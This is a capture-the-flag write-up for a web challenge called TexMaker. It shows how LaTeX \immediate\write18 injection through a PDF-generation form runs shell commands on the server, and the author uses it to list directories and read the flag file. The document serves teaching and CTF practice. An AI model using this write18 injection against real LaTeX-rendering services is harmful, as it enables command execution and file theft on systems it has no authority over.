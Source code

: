 #TexMaker

**Category:** Web
**Points:** 90

**Description:**

Creating and using coperate templates is sometimes really hard. Luckily, we have a webinterace for creating PDF files. Some people doubt it's secure, but I reviewed the whole code and did not find any flaws.

Service: https://texmaker.ctf.internetwache.org

##TexMaker-Solution:

By viewing the given webpage, we will see a form that takes LATEX commands from us and
generate corresponded pdf to our inputs.

![Image of 1]
(./images/1.png)

This kind of stuff only ring one bell!!! Code Execution.

But how?

For solving this challenge we should find commands that let users execute shell commands.
By searching google for it, I ended up in this page: 'http://tex.stackexchange.com/questions/16790/write18-capturing-shell-script-output-as-command-variable'

For example for viewing the result of ```ls -la``` in current directory, we should use something like below in our latex file:

```
\documentclass{minimal}

\begin{document}

File listing is:

\immediate\write18{ls /usr}

\end{document}
```

As we can see by using of ```\immediate\write18``` we can execut3 any command that we want.
But remember in this injection, we doesn't need to insert \documentclass & ... in the form field.
Cause they make instructure of LATEX file and server automatically will insert this commands. So if you
insert one of those header commands, will cause error.

For exploit this task, i used this commands in form field:

```
\immediate\write18{ls -la / }
```

![Image of 2]
(./images/2.png)

It will generate a pdf for us. But when viewing the generated pdf, we can't see the outputs of 'ls -la' commands
in the pdf. After surfing a little more on this challenge and trying some other commands, I found out that
the results are shown in the debug section in the bottom of the page.
This is the result of ```ls -la``` command shown in debug section:

```
LaTeX Font Warning: Font shape `OT1/cmss/m/sc' in size <10.95> not available
(Font)              Font shape `OT1/cmr/m/sc' tried instead on input line 70.

(/usr/share/texmf/tex/latex/lm/ot1lmr.fd)
(/usr/share/texmf/tex/latex/lm/omllmm.fd)
(/usr/share/texmf/tex/latex/lm/omslmsy.fd)
(/usr/share/texmf/tex/latex/lm/omxlmex.fd)
(/usr/share/texlive/texmf-dist/tex/latex/amsfonts/umsa.fd)
(/usr/share/texlive/texmf-dist/tex/latex/amsfonts/umsb.fd)total 96
drwxr-xr-x   25 root root  4096 Feb 20 10:05 .
drwxr-xr-x   25 root root  4096 Feb 20 10:05 ..
drwxrwxr-x    2 root root  4096 Feb 19 15:37 bin
drwxr-xr-x    3 root root  4096 Feb 19 15:38 boot
drwxr-xr-x    2 root root  4096 Feb 12 01:03 command
drwxr-xr-x   16 root root  2800 Feb 20 10:05 dev
drwxr-xr-x  109 root root  4096 Feb 20 10:12 etc
drwxr-xr-x    2 root root  4096 Jan  6 16:18 home
lrwxrwxrwx    1 root root    31 Feb  3 02:40 initrd.img -> /boot/initrd.img-3.16.0-4-amd64
drwxr-xr-x   15 root root  4096 Feb 19 15:37 lib
drwxr-xr-x    2 root root  4096 Feb 17 23:14 lib64
drwx------    2 root root 16384 Feb  3 02:39 lost+found
drwxr-xr-x    3 root root  4096 Feb  3 02:39 media
drwxr-xr-x    2 root root  4096 Feb  3 02:39 mnt
drwxr-xr-x    4 root root  4096 Feb 11 03:09 opt
drwxrwxr-t    3 root root  4096 Feb 12 01:03 package
dr-xr-xr-x  115 root root     0 Feb 20 10:05 proc
drwx------    6 root root  4096 Feb 21 12:46 root
drwxr-xr-x   20 root root   700 Feb 21 06:25 run
drwxr-xr-x    2 root root  4096 Feb 19 15:37 sbin
drwxr-xr-x    2 root root  4096 Feb 12 01:06 service
drwxr-xr-x    2 root root  4096 Feb  3 02:39 srv
dr-xr-xr-x   13 root root     0 Feb 20 12:20 sys
drwxrwxrwt+   7 root root  4096 Feb 21 13:40 tmp
drwxr-xr-x   10 root root  4096 Feb  3 02:39 usr
drwxr-xr-x   12 root root  4096 Feb 11 01:44 var
lrwxrwxrwx    1 root root    27 Feb  3 02:40 vmlinuz -> boot/vmlinuz-3.16.0-4-amd64
 [1{/var/lib/texmf/fo
nts/map/pdftex/updmap/pdftex.map}] (./87d3032d814794adcb2030b15eeabc1c.aux) )</
usr/share/texlive/texmf-dist/fonts/type1/public/amsfonts/cm/cmcsc10.pfb></usr/s
hare/texlive/texmf-dist/fonts/type1/public/amsfonts/cm/cmss10.pfb></usr/share/t
exlive/texmf-dist/fonts/type1/public/amsfonts/cm/cmss12.pfb></usr/share/texlive
/texmf-dist/fonts/type1/public/amsfonts/cm/cmss17.pfb>
Output written on 87d3032d814794adcb2030b15eeabc1c.pdf (1 page, 34379 bytes).
Transcript written on 87d3032d814794adcb2030b15eeabc1c.log.
```

From now on is simple. We only need to find the flag and read it:

```
\immediate\write18{ls -la /var/www/}

drwxr-xr-x  8 root root     4096 Feb 11 02:03 .
drwxr-xr-x 12 root root     4096 Feb 11 01:44 ..
drwxr-x---  3 root web80    4096 Feb 11 02:39 0ldsk00lblog.ctf.internetwache.org
drwxr-x---  3 root web50    4096 Feb 20 15:16 mess-of-hash.ctf.internetwache.org
drwxr-x---  3 root crypto80 4096 Feb 11 02:35 procrastination.ctf.internetwache.org
drwxr-x---  3 root web60    4096 Feb 20 12:13 replace-with-grace.ctf.internetwache.org
drwxr-x---  6 root web90    4096 Feb 21 05:23 texmaker.ctf.internetwache.org
drwxr-x---  3 root web70    4096 Feb 20 15:58 the-secret-store.ctf.internetwache.org
```

```
\immediate\write18{ls -la /var/www/texmaker.ctf.internetwache.org}

drwxr-x--- 6 root web90   4096 Feb 21 05:23 .
drwxr-xr-x 8 root root    4096 Feb 11 02:03 ..
-rw-r--r-- 1 root web90   1089 Feb 11 02:52 ajax.php
drwxr-xr-x 4 root web90   4096 Feb 11 02:52 assets
-rwxr-xr-x 1 root web90    114 Feb 11 02:52 cleanpdfdir.sh
drwxrwxrwt 3 root root   32768 Feb 21 14:45 compile
-rw-r--r-- 1 root web90    279 Feb 11 02:52 config.php
-rw-r--r-- 1 root web90    279 Feb 11 02:52 config.php.sample
-rw-r--r-- 1 root web90     50 Feb 11 02:52 flag.php
-rw-r--r-- 1 root web90   2743 Feb 11 02:52 index.php
drwxrwxrwt 2 root root  618496 Feb 21 14:44 pdf
drwxr-xr-x 5 root web90   4096 Feb 11 02:52 template
```

And bammm. We see a flag.php file. lets read it:

```
\immediate\write18{cat /var/www/texmaker.ctf.internetwache.org/flag.php }

<?php
$FLAG = "IW{L4T3x_IS_Tur1ng_c0mpl3te}";
?>
```

The flag is : **IW{L4T3x_IS_Tur1ng_c0mpl3te}**
